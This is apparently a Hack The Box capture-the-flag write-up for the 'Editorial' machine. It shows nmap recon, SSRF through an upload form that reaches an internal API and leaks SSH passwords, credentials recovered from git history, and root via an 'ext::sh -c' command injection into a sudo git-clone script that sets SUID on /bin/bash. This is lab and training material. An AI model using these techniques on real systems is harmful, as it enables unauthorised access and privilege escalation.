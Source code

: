 # Editorial Write-up

<img src="https://labs.hackthebox.com/storage/avatars/a466db5ce4f7aaea98f588d1cb71a0aa.png" width="200" height="200">

## Recon 

### Port enumeration with Nmap

`nmap -sC -sV -p- 10.10.11.20`

Add domain name to `/etc/hosts`

    sudo echo "10.10.11.20 editorial.htb" | sudo tee -a /etc/hosts

`editorial.htb`

![image](https://github.com/zer00d4y/writeups/assets/128820441/07fdd17a-f5fe-47b2-b023-18ca896b2502)

`editorial.htb/upload`

![image](https://github.com/zer00d4y/writeups/assets/128820441/41e07ae5-ffed-4142-8dda-129aabe270ca)

# Exploatation

## SSRF 

Here we see signs of the SSRF's (Server-Side Request Forgery) vulnerability 

![image](https://github.com/zer00d4y/writeups/assets/128820441/c4d5cf44-7914-4f2c-ab85-042f8fec1cf3)

![image](https://github.com/zer00d4y/writeups/assets/128820441/f756318a-78a9-4d6c-9df6-b2b89f9b9403)

`http://127.0.0.1:5000/`

![image](https://github.com/zer00d4y/writeups/assets/128820441/0216112e-e857-48ce-ad81-2ebc7ddecb6a)

static/uploads/d93ee52f-75f2-4273-b05c-f4932c366478

![image](https://github.com/zer00d4y/writeups/assets/128820441/d613d58e-5577-43ba-85ce-bea48a5ba8b9)

    {"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}

/api/latest/metadata/messages/authors

![image](https://github.com/zer00d4y/writeups/assets/128820441/52e8bd7a-5202-4c35-8260-4c477bed1700)

static/uploads/d1166303-dbfa-496d-b260-3f45d9b66c9a

![image](https://github.com/zer00d4y/writeups/assets/128820441/28f92595-3fe8-41cd-af0e-7441dcc57a18)

SSH credentials

`dev:dev080217_devAPI!@`

Get the user flag!

![image](https://github.com/zer00d4y/writeups/assets/128820441/a7e04a02-398a-4728-a9a2-03d4762f1c93)

## Privilege Escalation

![image](https://github.com/zer00d4y/writeups/assets/128820441/3ad2f8e3-b7e9-425b-8604-db6ca4fdcf5b)

![image](https://github.com/zer00d4y/writeups/assets/128820441/c8fe42b2-ef4e-4ed7-a9f9-2211a53b491e)

git show 1e84a036b2f33c59e2390730699a488c65643d28

    ...
    +        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
    ...

SSH credentials for `Prod`

`prod:080217_Producti0n_2023!@`

![image](https://github.com/zer00d4y/writeups/assets/128820441/16e93836-bbc6-4331-a261-0026caa67669)

    echo '#!/bin/bash' > /tmp/exploit.sh 
    
    echo 'chmod u+s /bin/bash' >> /tmp/exploit.sh  
      
    sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c '/tmp/exploit.sh'"  
      
    ls -l /bin/bash

![image](https://github.com/zer00d4y/writeups/assets/128820441/74d0eb0e-1475-4172-abd1-3bea6ca23bac)

Get the root flag!

![image](https://github.com/zer00d4y/writeups/assets/128820441/c7c2778a-c835-49dd-9232-acb92554cb2f)

